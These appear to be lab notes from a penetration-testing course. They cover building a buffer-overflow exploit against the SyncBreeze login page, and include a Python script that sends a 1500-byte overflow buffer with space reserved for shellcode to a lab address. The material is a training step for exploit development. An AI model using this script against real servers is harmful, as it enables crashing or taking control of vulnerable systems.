 11.2.5.1

# 11.2.5.1
## 11.2.5.1.1. Repeat the required steps in order to identify the bad characters that cannot be included in the payload.

**Bad characters CANNOT be in the buffer, return address, or shellcode.**

### Locate space for payload (shellcode). We will attempt to increase our buffer to 1500 bytes while still maintaining the same buffer overflow condition. Here is the code:
```python
kali@kali:~/gitWorkspace/pwk/oscpExercises/bufferOverflow/win/syncbreeze$ cat 6_placeholder_for_shellcode.py 
#!/usr/bin/python
import socket
import sys

try:
    print "\nSending evil buffer..."

    filler = "A" * 780
    eip = "B" * 4
    offset = "C" * 4
    buffer = "D" * (1500 - len(filler) - len(eip) - len(offset))
    
    inputBuffer = filler + eip + offset + buffer
    
    content = "username=" + inputBuffer + "&password=A"
    
    buffer = "POST /login HTTP/1.1\r\n"
    buffer += "Host: 192.168.214.10\r\n"
    buffer += "User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0\r\n"
    buffer += "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8\r\n"
    buffer += "Accept-Language: en-US,en;q=0.5\r\n"
    buffer += "Accept-Encoding: gzip, deflate\r\n"
    buffer += "Referer: http://192.168.214.10/login\r\n"
    buffer += "Content-Type: application/x-www-form-urlencoded\r\n"
    buffer += "Content-Length: "+str(len(content))+"\r\n"
    buffer += "DNT: 1\r\n"
    buffer += "Connection: keep-alive\r\n"
    buffer += "Upgrade-Insecure-Requests: 1\r\n"
    buffer += "\r\n"
    
    buffer += content
    
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

    s.connect(("192.168.214.10", 80))
    s.send(buffer)

    s.close()
    print "\nDone!"

except:
    print "Could not connect!"
    sys.exit()
```
